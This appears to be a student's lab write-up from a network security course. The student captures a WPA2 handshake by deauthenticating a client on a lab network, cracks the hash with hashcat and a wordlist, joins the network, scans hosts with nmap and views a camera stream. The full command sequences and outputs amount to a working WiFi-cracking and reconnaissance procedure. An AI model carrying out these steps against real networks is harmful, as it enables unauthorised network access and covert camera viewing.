

[[_TOC_]]

# Getting on the WiFi

## Connecting to the Workstation


```
 local-vm$ ssh kali@edie.cs.pdx.edu -i edie -J sawyeras@linux.cs.pdx.edu 
```

## Card Mode
The card was already in monitor mode from the previous password cracking
exercise, but I for some reason `bettercap` wasn't getting anything from `wifi.show` at first. 
When I put the card back into managed mode and then into monitor mode again, it started working as I expected.

```
 $ sudo iwconfig mode Managed
 $ sudo airmon-ng check kill
 $ sudo airmon-ng start wlan0
```

## Capturing the Handshake


```
 $ sudo bettercap --iface wlan0mon
 > wifi.recon on
...
[18:16:35] [wifi.ap.new] wifi access point NetSec (-35 dBm) detected as 28:87:ba:75:7e:93.
...
 > wifi.show

┌─────────┬───────────────────┬────────────────┬──────────────────┬─────┬─────┬─────────┬────────┬────────┬──────────┐
│ RSSI ▴  │       BSSID       │      SSID      │    Encryption    │ WPS │ Ch  │ Clients │  Sent  │ Recvd  │   Seen   │
├─────────┼───────────────────┼────────────────┼──────────────────┼─────┼─────┼─────────┼────────┼────────┼──────────┤
│ -35 dBm │ 28:87:ba:75:7e:93 │ NetSec         │ WPA2 (CCMP, PSK) │ 2.0 │ 48  │ 1       │ 4.3 kB │ 54 B   │ 18:24:30 │
│                                                      ...                                                           │
│                                                      ...                                                           │
│                                                      ...                                                           │
└─────────┴───────────────────┴────────────────┴──────────────────┴─────┴─────┴─────────┴────────┴────────┴──────────┘

 > wifi.recon 28:87:ba:75:7e:93
[18:58:15] [wifi.client.new] new station 70:f7:54:ff:1c:59 (AMPAK Technology,Inc.) detected for NetSec (28:87:ba:75:7e:93)

 > wifi.show

28:87:ba:75:7e:93 clients:

┌─────────┬───────────────────┬────┬────────┬───────┬──────────┐
│ RSSI ▴  │       BSSID       │ Ch │  Sent  │ Recvd │   Seen   │
├─────────┼───────────────────┼────┼────────┼───────┼──────────┤
│ -39 dBm │ 00:c0:ca:b0:61:b9 │ 48 │ 112 B  │ 504 B │ 18:35:20 │
│ -45 dBm │ 70:f7:54:ff:1c:59 │ 48 │ 5.1 kB │ 672 B │ 18:36:09 │
└─────────┴───────────────────┴────┴────────┴───────┴──────────┘

 > wifi.deauth 70:f7:54:ff:1c:59
[19:06:08] [wifi.client.handshake] captured 70:f7:54:ff:1c:59 -> NetSec (28:87:ba:75:7e:93) WPA2 handshake (half) to /root/bettercap-wifi-handshakes.pcap
[19:06:08] [wifi.client.handshake] captured 70:f7:54:ff:1c:59 -> NetSec (28:87:ba:75:7e:93) WPA2 handshake (half) to /root/bettercap-wifi-handshakes.pcap
[19:06:08] [wifi.client.handshake] captured 70:f7:54:ff:1c:59 -> NetSec (28:87:ba:75:7e:93) WPA2 handshake (full) to /root/bettercap-wifi-handshakes.pcap

 > exit
```

## Getting the Hash

```
 $ sudo cp /root/bettercap-wifi-handshakes.pcap .
 $ hcxpcapngtool bettercap-wifi-handshakes.pcap -o hash
hcxpcapngtool 6.2.7 reading from bettercap-wifi-handshakes.pcap...

summary capture file
--------------------
file name................................: bettercap-wifi-handshakes.pcap
version (pcap/cap).......................: 2.4 (very basic format without any additional information)
timestamp minimum (GMT)..................: 18.05.2024 18:58:15
timestamp maximum (GMT)..................: 18.05.2024 19:06:13
used capture interfaces..................: 1
link layer header type...................: DLT_IEEE802_11_RADIO (127)
endianness (capture system)...............: little endian
packets inside...........................: 18
packets received on 5 GHz................: 18
ESSID (total unique).....................: 1
BEACON (total)...........................: 1
ACTION (total)...........................: 9
ASSOCIATIONREQUEST (total)...............: 1
ASSOCIATIONREQUEST (PSK).................: 1
EAPOL messages (total)...................: 7
EAPOL RSN messages.......................: 7
EAPOLTIME gap (measured maximum usec)....: 1344
EAPOL ANONCE error corrections (NC)......: not detected
EAPOL M1 messages (total)................: 2
EAPOL M2 messages (total)................: 2
EAPOL M3 messages (total)................: 2
EAPOL M4 messages (total)................: 1
EAPOL pairs (total)......................: 8
EAPOL pairs (best).......................: 1
EAPOL pairs written to 22000 hash file...: 1 (RC checked)
EAPOL M32E2 (authorized).................: 1

frequency statistics from radiotap header (frequency: received packets)
-----------------------------------------------------------------------
 5240: 18

...

session summary
---------------
processed cap files...................: 1

 $ cat hash
WPA*02*9b76ab0370df3edfba60aa1b710fa1d1*2887ba757e93*70f754ff1c59*4e6574536563*6dd1e3804119dbd3f644d568fd3a01911202e3c04b13a0638f60692520cd5d9d*0103007502010a00000000000000000001f0009806c80f02dccda6cee2e553e535ddb668774f3893b67888171ebc16257e000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001630140100000fac040100000fac040100000fac028000*02 
```

## Cracking the Hash

The `hashcat` man pages said that the code for WPA/WPA2 was 2500, so I started with that. 

```
 $ hashcat -m 2500 hash /usr/share/wordlists/rockyou.txt.qz

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
...
The plugin 2500 is deprecated and was replaced with plugin 22000. For more details, please read: https://hashcat.net/forum/thread-10253.html
...

 $ hashcat -m 22000 hash /usr/share/wordlists/rockyou.txt.gz
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
...

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

...

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

9b76ab0370df3edfba60aa1b710fa1d1:2887ba757e93:70f754ff1c59:NetSec:crackme1

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
Hash.Target......: hash
Time.Started.....: Sat May 18 19:24:58 2024 (7 mins, 13 secs)
Time.Estimated...: Sat May 18 19:32:11 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    13632 H/s (9.16ms) @ Accel:64 Loops:1024 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 8938029/14344385 (62.31%)
Rejected.........: 3033645/8938029 (33.94%)
Restore.Point....: 8937451/14344385 (62.31%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: craetive -> cracker82
Hardware.Mon.#1..: Temp: 80c Util:  0%

Started: Sat May 18 19:24:13 2024
Stopped: Sat May 18 19:32:13 2024

 $ hashcat -m 22000 --show hash
9b76ab0370df3edfba60aa1b710fa1d1:2887ba757e93:70f754ff1c59:NetSec:crackme1
```

## Connecting

`nmcli` wouldn't connect to `NetSec` until after I did the `nmcli device wifi` command

```
 $ sudo airmon-ng stop wlan0mon

PHY     Interface       Driver          Chipset

phy0    wlan0mon        mt76x2u         MediaTek Inc. MT7612U 802.11a/b/g/n/ac
                (mac80211 station mode vif enabled on [phy0]wlan0)
                (mac80211 monitor mode vif disabled for [phy0]wlan0mon)

 $ sudo systemctl start NetworkManager
 $ nmcli device wifi
IN-USE  BSSID              SSID            MODE   CHAN  RATE        SIGNAL  BARS  SECURITY
        28:87:BA:75:7E:93  NetSec          Infra  48    270 Mbit/s  100     ▂▄▆█  WPA2
...

 $ sudo nmcli device wifi connect NetSec password crackme1
Device 'wlan0' successfully activated with '52796feb-4833-46c6-b196-8e18e42f8bb6'.
```


# Nmap

```
 $ ip a s
...
6: wlan0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:c0:ca:b2:eb:61 brd ff:ff:ff:ff:ff:ff
    inet 192.168.0.187/24 brd 192.168.0.255 scope global dynamic noprefixroute wlan0
       valid_lft 5019sec preferred_lft 5019sec
    inet6 fe80::78d:a2e3:8c5a:3175/64 scope link noprefixroute
       valid_lft forever preferred_lft forever

 $ sudo nmap -sn 192.168.0.187/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-18 20:20 PDT
Nmap scan report for Archer (192.168.0.1)
Host is up (0.0034s latency).
MAC Address: 28:87:BA:75:7E:98 (TP-Link Limited)
Nmap scan report for 192.168.0.47
Host is up (0.10s latency).
MAC Address: 70:F7:54:FF:1C:59 (Ampak Technology)
Nmap scan report for ivan (192.168.0.131)
Host is up (0.0090s latency).
MAC Address: 00:C0:CA:B0:61:B9 (Alfa)
Nmap scan report for 192.168.0.139
Host is up (0.0037s latency).
MAC Address: D8:3A:DD:7E:3C:31 (Unknown)
Nmap scan report for reterm-i (192.168.0.240)
Host is up (0.031s latency).
MAC Address: E4:5F:01:91:0C:52 (Raspberry Pi Trading)
Nmap scan report for edie (192.168.0.187)
Host is up.
Nmap done: 256 IP addresses (6 hosts up) scanned in 1.90 seconds
```
The router is `192.168.0.1`

I didn't scan the clients that were other workstations (i.e ivan and edie from above)

```
 $ cat cli.txt
192.168.0.47
192.168.0.139
192.168.0.240

 $ sudo nmap -sV -iL cli.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-20 12:18 PDT
Nmap scan report for Khadas (192.168.0.47)
Host is up (0.021s latency).
Not shown: 998 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
631/tcp open  ipp     CUPS 2.4
MAC Address: 70:F7:54:FF:1C:59 (Ampak Technology)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.0.139
Host is up (0.028s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
1935/tcp open  rtmp?
8888/tcp open  sun-answerbook?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8888-TCP:V=7.94SVN%I=7%D=5/20%Time=664BA207%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,D9,"HTTP/1\.0\x20404\x20Not\x20Found\r\nAccess-Control-Allo
SF:w-Credentials:\x20true\r\nAccess-Control-Allow-Origin:\x20\*\r\nContent
SF:-Type:\x20text/plain\r\nServer:\x20mediamtx\r\nDate:\x20Sun,\x2019\x20M
SF:ay\x202024\x2002:22:53\x20GMT\r\nContent-Length:\x2018\r\n\r\n404\x20pa
SF:ge\x20not\x20found")%r(HTTPOptions,FA,"HTTP/1\.0\x20204\x20No\x20Conten
SF:t\r\nAccess-Control-Allow-Credentials:\x20true\r\nAccess-Control-Allow-
SF:Headers:\x20Authorization,\x20Range\r\nAccess-Control-Allow-Methods:\x2
SF:0OPTIONS,\x20GET\r\nAccess-Control-Allow-Origin:\x20\*\r\nServer:\x20me
SF:diamtx\r\nDate:\x20Sun,\x2019\x20May\x202024\x2002:22:53\x20GMT\r\n\r\n
SF:")%r(FourOhFourRequest,DD,"HTTP/1\.0\x20301\x20Moved\x20Permanently\r\n
SF:Access-Control-Allow-Credentials:\x20true\r\nAccess-Control-Allow-Origi
SF:n:\x20\*\r\nLocation:\x20/nice\x20ports,/Trinity\.txt\.bak/\r\nServer:\
SF:x20mediamtx\r\nDate:\x20Sun,\x2019\x20May\x202024\x2002:22:53\x20GMT\r\
SF:nContent-Length:\x200\r\n\r\n")%r(LSCP,67,"HTTP/1\.1\x20400\x20Bad\x20R
SF:equest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\
SF:x20close\r\n\r\n400\x20Bad\x20Request")%r(GenericLines,67,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8
SF:\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(RTSPRequest,6
SF:7,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x
SF:20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%
SF:r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/
SF:plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Re
SF:quest")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConte
SF:nt-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\
SF:n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCon
SF:nection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20cha
SF:rset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request");
MAC Address: D8:3A:DD:7E:3C:31 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for reterm-i (192.168.0.240)
Host is up (0.018s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
MAC Address: E4:5F:01:91:0C:52 (Raspberry Pi Trading)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

 $ sudo nmap -sT -T5 192.168.0.139 -p1-65535
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-21 17:18 PDT
Warning: 192.168.0.139 giving up on port because retransmission cap hit (2).
Nmap scan report for bookworm (192.168.0.139)
Host is up (0.00090s latency).
Not shown: 36973 filtered tcp ports (net-unreach), 19787 filtered tcp ports (no-response), 8772 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8554/tcp open  rtsp-alt
8888/tcp open  sun-answerbook
MAC Address: D8:3A:DD:7E:3C:31 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 42.05 seconds

```

# RTSP Stream

````
 local-vm$ ssh -NL 8888:192.168.0.139:8888 kali@edie.cs.pdx.edu -i edie
 local-vm$ firefox localhost:8888/cam
```


